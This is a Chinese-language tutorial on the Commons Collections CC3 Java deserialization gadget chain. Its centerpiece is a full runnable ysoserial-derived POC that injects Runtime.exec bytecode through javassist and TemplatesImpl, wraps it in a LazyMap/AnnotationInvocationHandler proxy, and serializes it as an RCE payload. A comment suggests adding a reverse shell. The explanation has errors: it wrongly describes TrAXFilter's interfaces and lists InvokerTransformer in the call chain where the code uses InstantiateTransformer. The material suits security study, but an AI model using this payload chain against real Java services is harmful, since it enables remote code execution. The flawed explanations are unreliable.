

## 环境准备

JDK1.7(7u80)、commons-collections(3.x 4.x均可这里使用3.2版本)、javassist(3.12.1.GA)

JDK：https://repo.huaweicloud.com/java/jdk/7u80-b15/jdk-7u80-windows-x64.exe

cc4.0、ClassPool的mvn依赖如下

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2</version>
</dependency>
<dependency>
    <groupId>javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.12.1.GA</version>
</dependency>

```

因为这里用到了Proxy，所以JDK8新版本中不可用，在CC5中提到了一种新的利用方式，可以不通过Proxy来调用。

## 正文

CC3 攻击链的关键在于利用 **`Templates`** 和 **`ChainedTransformer`**、 **`ConstantTransformer`**、**`InstantiateTransformer`**类来形成一系列的反射调用，最终触发恶意类的加载或执行。

本质上来说CC3攻击链条是CC2中的`Templates`部分+CC1中的`Proxy`部分，所以大家都说CC3是CC1和CC2的变种写法。其实CC攻击链并非只有一种固定写法，可以通过多种写法的结合来完成新的攻击链，当把`ysoserial`中的CC链学完之后，就可以自己尝试自由组合。

CC3中多了几个类：

## TrAXFilter

`TrAXFilter` 类是 Java 中 XML 处理相关的一个类，属于 Java XML API 的一部分。它主要用于过滤和处理 XML 数据流。`TrAXFilter` 实现了 `javax.xml.transform.sax.SAXResult` 接口，提供了对 XML 数据流的接收、处理和转换能力。在一些利用中，特别是在 Java 反序列化漏洞的利用链（如 CC3）中，`TrAXFilter` 被用作利用链的一部分，因为它的构造函数涉及到了 `Templates` 类对象，并且其操作可以被利用来执行恶意代码。

### CC3中的应用

**配合 `ChainedTransformer`：** 在 CC3 中，`TrAXFilter` 通常与 **`ChainedTransformer`** 类结合使用。`ChainedTransformer` 允许多个 `Transformer` 被顺序调用，从而达到多层嵌套和最终执行恶意操作的效果。`TrAXFilter` 是作为其中一个 `Transformer` 使用的，它的构造函数需要传入 `Templates` 对象，而 `Templates` 可以携带恶意字节码。

**执行恶意代码：** 当反序列化触发时，构造的 `TrAXFilter` 会被激活，并且它会通过 `Templates` 生成恶意的 XML 转换过程。具体来说，`TrAXFilter` 作为一个过滤器，可以与 `Templates` 类结合，完成从普通 XML 到恶意命令的转换。这就允许通过 XML 数据流来触发恶意代码的执行。

### 关键代码

```java
public class TrAXFilter extends XMLFilterImpl {
    private Templates              _templates;
    private TransformerImpl        _transformer;
    private TransformerHandlerImpl _transformerHandler;
    private boolean _overrideDefaultParser;
	// 构造函数接收一个Templates参数
    public TrAXFilter(Templates templates)  throws
        TransformerConfigurationException
    {
        _templates = templates;
        // 执行templates的newTransformer方法，而newTransformer就是CC2链中提到的最终执行恶意代码的逻辑
        _transformer = (TransformerImpl) templates.newTransformer();
        _transformerHandler = new TransformerHandlerImpl(_transformer);
        _overrideDefaultParser = _transformer.overrideDefaultParser();
    }
}
```

## InstantiateTransformer

有了上述 gadget ，接下来的重点就是需要我们实例化这个 TrAXFilter，实例化我们当然可以使用 InvokerTransformer 反射拿到 Constructor 再 newInstance，但是同样地可以直接使用另外一个 Transformer：InstantiateTransformer。

Commons Collections 提供了 InstantiateTransformer 用来通过反射创建类的实例，可以看到 `transform()` 方法实际上接收一个 Class 类型的对象，通过 `getConstructor` 获取构造方法，并通过 `newInstance` 创建类实例。

### 关键代码

```java
public class InstantiateTransformer implements Transformer, Serializable {
    private final Class[] iParamTypes;
    private final Object[] iArgs;

    public InstantiateTransformer(Class[] paramTypes, Object[] args) {
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }
    public Object transform(Object input) {
    	......
        // 获取input的Class对象的构造方法，并调用构造方法创建实例对象
        // 如果input=TrAXFilter.class，iParamTypes=Templates.class。则最终就能调用到TrAXFilter(Templates templates)
        Constructor con = ((Class)input).getConstructor(this.iParamTypes);
        return con.newInstance(this.iArgs);
        ......
    }
}
```

基于CC2和CC1的内容，我们可以构造出来以下的POC代码

## POC - ysoserial代码

下边的代码还是基于ysoserial的代码的改造版本，不使用ysoserial中的模板代码和工具类，下边的代码可以直接在本地运行。

```java
public class CommonsCollections3 {
    static String serialFileName = "commons-collections3.ser";

    public static void main(String[] args) throws Exception {
        cc3byYsoSerial();
        verify();
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }

    public static void cc3byYsoSerial() throws Exception {
        //==========================CC2中的构造Templates的内容 START==========================
        String executeCode = "Runtime.getRuntime().exec(\"cmd /c start\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());
        //==========================CC2中的构造Templates的内容 END==========================

        //========================CC3的新增调用方式START==============================
        // inert chain for setup
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] { Templates.class },
                        new Object[] { templates } )};
        //=========================CC3的新增调用方式 END===================================

        //=========================CC1中的动态代理方式 反序列化触发 START===========================
        // 等同于ysoserial中的Reflections.setFieldValue(transformerChain, "iTransformers", transformers);写法
        Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);

        // 先创建LazyMap，用来将transformerChain包装成一个Map，当Map中的get方法被触发时就能直接触发到调用链
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
        // 构造动态代理
        final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        // 创建携带着 LazyMap 的 AnnotationInvocationHandler 实例
        InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
        // 创建LazyMap的动态代理类实例
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), LazyMap.class.getInterfaces(), handler);

        // 使用动态代理初始化 AnnotationInvocationHandler
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);
        //=========================CC1中的动态代理方式 反序列化触发 END===========================

        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(invocationHandler);
        oos.flush();
        oos.close();
        fos.close();
    }
}
```

运行效果如下



## 调用链

调用链就是CC1和CC2的结合版本，如下：

* ObjectInputStream.readObject()
  * AnnotationInvocationHandler.readObject()
    * Map(Proxy).entrySet()
      * AnnotationInvocationHandler.invoke()
        * LazyMap.get()
          * ChainedTransformer.transform()
            * ConstantTransformer.transform()		TrAXFilter
            * InvokerTransformer.transform()		  Templates
              * TrAXFilter()				           Templates
                * TemplatesImpl.newTransformer()
                * TemplatesImpl.getTransletInstance()
                * ......
                * 触发静态代码调用

